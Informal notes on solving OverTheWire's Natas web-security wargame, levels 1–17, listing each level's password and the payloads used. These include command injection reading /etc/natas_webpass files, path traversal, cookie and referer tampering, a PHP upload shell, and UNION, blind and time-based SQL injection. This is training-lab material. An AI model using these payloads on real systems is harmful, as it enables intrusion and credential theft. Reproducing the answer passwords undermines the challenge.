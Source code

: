 * 1: gtVrDuiDfck831PqWsLEZy5gyDz1clto

* 2: ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi

go to URL/files
users.txt will have the password

* 3: sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

websites have URL/robots.txt so that google can find it
go to URL/s3cr3t

* 4: Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ


go to natas5 
copy the button in natas 4, inspect element and add it to natas5
click it

curl -e http://natas5.natas.labs.overthewire.org/ -u natas4 http://natas4.natas.labs.overthewire.org/index.php

dash e is referal. 

* 5: iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

Cookies. curl -i -u natas5 http://natas5.natas.labs.overthewire.org/

document.cookie="loggedin=1"
look at the memory side of console 

* 6: aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

go to URL/includes/secret.inc
$_POST gets information through http headers. 
$_GET gets information through URLS

* 7: 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8

* 8: DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

var_dump(base64_decode(strrev(hex2bin("3d3d516343746d4d6d6c315669563362"))));

* 9: W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

; cat /etc/natas_webpass/natas10; 
passthru will run bash code

* 10: nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

; = %3B
& = %26

passthru("grep -i $key dictionary.txt");

"-F '' /etc/natas_webpass/natas11" 

       -F, --fixed-strings
Interpret PATTERN as a list of fixed strings (instead of 
regular expressions), separated by newlines, any of which is to be 
matched.


       -E, --extended-regexp
  Interpret PATTERN as an extended regular expression (ERE, see below).


* 11: U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

You know you could've xor'ed the entire thing by itself

ciphertext = plaintext XOR key
ciphertext XOR plaintext = KEY bruhh

If i change 
$partialKey .= $text2[$i] ^ 'f';
into 
$partialKey .= $text1[$i] ^ '0';

it still works.

w8Jqw8
is the output. So

qw8J is the XOR key!! Any cyclic permutation of Jqw8

* 12: EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

Inspect element. Change the filename to .php on the hidden. Inject a php
file in there , passthru() and cat the webpass

* 13: jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

get an image file, in the bottom write php code, and put it in the website

* 14: Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

in username:
natas15"#

in password:
hi" UNION select * from users where username not like "*

BROOOOO YOU CAN HAVE COMMENTS!!!!!

* 15: AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

File: ./sockets.py

natas16" and cast(password as binary) regexp '^..w' # 

loop through this. Maybe use python or something

blind based sql injection

couldve used the injection natas16" and password LIKE BINARY"

* 16: WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

File: ./natas16.py

$(grep -o ^. /etc/natas_webpass/natas17)
$(cut -c 2 /etc/natas_webpass/natas17)

_PS_H_GWBN_rD_S_GMADGqNDKHPKq_CW
_Ps_H_GWbn_rd_S_GmAdgQNdkhPkq_cw

> Learn perl style regexes 
cat 16pass.txt | grep -oP '^.\K(a)'

^$(grep -oP ^.\K(P) /etc/natas_webpass/natas17)

couldve done
doomed$(grep ^...{char} /etc/natas_webpass/natas17) 
If no output, char is there
If there is an output, there is no char

* 17: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw

natas18"- IF(1, NULL, sleep(15))#
print(session.get(url).elapsed.total_seconds())

Hacking stages: 
1.) Research
2.) Manual testing
3.) Automation

natas18"-IF(cast(password as binary) regexp '^{periods}{letter}', sleep(8), null) #


natas16" - IF(cast(password as binary) regexp '^WaIHEa', 0, 1 ) #
